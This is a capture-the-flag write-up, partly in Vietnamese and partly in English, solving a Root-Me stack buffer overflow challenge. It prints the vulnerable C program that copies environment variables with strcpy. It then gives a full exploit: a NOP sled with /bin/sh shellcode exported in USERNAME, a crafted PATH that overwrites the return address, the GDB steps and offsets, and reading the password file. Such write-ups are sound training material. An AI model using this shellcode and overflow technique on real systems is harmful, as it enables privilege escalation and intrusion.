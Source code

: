 
# Co-che-hoat-dong-cua-ma-doc - challenge 5 CTF Write up
```html
ELF x86 - Stack buffer overflow basic 4: ssh -p 2222 app-systeme-ch8@challenge02.root-me.org 
```

![image](https://user-images.githubusercontent.com/64201705/120130184-bac8d300-c1ef-11eb-9a06-2c075e009029.png)

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
app-systeme-ch8@challenge02:~$ cat ch8.c
```
Ta sẽ được như này:
```C
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string.h>

struct EnvInfo
{
  char home[128];
  char username[128];
  char shell[128];
  char path[128];
};


struct EnvInfo GetEnv(void)
{
  struct EnvInfo env;
  char *ptr;

  if((ptr = getenv("HOME")) == NULL)
    {
      printf("[-] Can't find HOME.\n");
      exit(0);
    }
  strcpy(env.home, ptr);
  if((ptr = getenv("USERNAME")) == NULL)
    {
      printf("[-] Can't find USERNAME.\n");
      exit(0);
    }
  strcpy(env.username, ptr);
  if((ptr = getenv("SHELL")) == NULL)
    {
      printf("[-] Can't find SHELL.\n");
      exit(0);
    }
  strcpy(env.shell, ptr);
  if((ptr = getenv("PATH")) == NULL)
    {
      printf("[-] Can't find PATH.\n");
      exit(0);
    }
  strcpy(env.path, ptr);
  return env;
}

int main(void)
{
  struct EnvInfo env;

  printf("[+] Getting env...\n");
  env = GetEnv();

  printf("HOME     = %s\n", env.home);
  printf("USERNAME = %s\n", env.username);
  printf("SHELL    = %s\n", env.shell);
  printf("PATH     = %s\n", env.path);

  return 0;
}
```
Đối với challenge này, ta thấy chương trình sẽ load biến môi trường lên và sử dụng hàm `strcpy` để thực hiện copy env đó qua con trỏ ptr. Vì thế, ta sẽ nghĩ tới việc chương trình sẽ load đoạn shell code do ta chuẩn bị nằm trong biến môi trường và copy qua con trỏ. Sau đó sẽ ghi đè câu lệnh return 0 để gọi tới hàm có địa chỉ nằm trong shell code.
Đầu tiên ta thấy chương trình cần biến môi trường `USERNAME` cho nên ta sẽ export biến này trước: `export USERNAME=AAAA`
Sau khi gọi hàm Getenv() và gần tới câu lệnh return, stack sẽ có dạng:
```
            +----------------------------+
            |      HOME env variable     |     %ebp - 540
            +----------------------------+
            |    USERNAME env variable   |     %ebp - 412
            +----------------------------+
            |      SHELL env variable    |     %ebp - 284
            +----------------------------+
            |      PATH env variable     |     %ebp - 156
            +----------------------------+
            |           saved ebp        |
            +----------------------------+
            |        return address      |     %ebp + 4
            +----------------------------+
            |   rep movsl dest. address  |     %ebp + 8
            +----------------------------+  
```
This problem is very similar to the last one. We need to simply put our shellcode in one of the environment variables, and then overflow the last environment variable with the address of it to overwrite our return address, although there is one tricky issue which we will get to later. Firstly, let's write our shellcode. In this particular case, it's difficult to predict exactly where our environment variable will be placed, so we should write a bunch of nop operations in front of our code which make it easier to jump to our code, as if we jump anywhere within the nop section it'll continue forward until the actual code. The shellcode I used was from here as the previous 23-byte shellcode didn't work for some reason. We can do it easily from bash like so, which will fit perfectly into our 128-byte buffer: export USERNAME=`python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")'` . Now that we have our shellcode in our environment, let's find out where it's located so that we can overwrite the return pointer to it. Open the program in GDB, set a breakpoint at line 44(just before the return), and get the location of username like so: x/x env.username. In my case it was 0xbffff4fc but I set my pointer to 0xbffff53c to give it a bit of headroom on either side so if the values are off slilghtly it should still work. However, there are two more things we need to find out first. In this case we will use PATH for our buffer overflow as it's at the bottom of the struct. We firstly need to find out the offset between path and our return pointer. With the program open in GDB and stopped at line 44 again, get the address of PATH: x/x env.path, and the address of our return pointer: x/x $esp+4. If you subtract them, you should find that they are 160 bytes apart from each other. Finally, the tricky thing I mentioned earlier. As the function returns a struct, and the struct is initially allocated on the stack, when it returns it copies the struct into a global variable. The pointer telling it where to copy the struct to is located directly after the return pointer. Hence, if we strcpy up to the return pointer, we will overwrite the pointer will the null byte that strcpy adds to the end. The solution is to check what it's original value is, and to rewrite it with that value so that the null byte doesn't get written over it. You can do that by running x/42xw env/path. This will allow us to confirm that the return address is indeed stored at env.path+164(it should be the second last address), and we can also get the value of the new struct location(the last address). In my case, it was 0xbffff750. Finally, we need to write the overflow exploit to the path environment variable. Firstly, get the length of the variable with echo ${#PATH}. Pad it to the nearest 4(I used colons for the padding but it doesn't matter much), and then write the address with the bytes reversed(we are using little-endian) enough times to get our total length to 164. Then add the new struct address onto the end(remember to reverse the bytes again), so that the total length is now 168. This can all be done in one command like so: export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/:::`python -c 'print("\x3c\xf5\xff\xbf"*13+"\x50\xf7\xff\xbf")'` . At this point, you should be able to run the program and get a shell as the setuid user. You can then get the password by running cat .passwd.



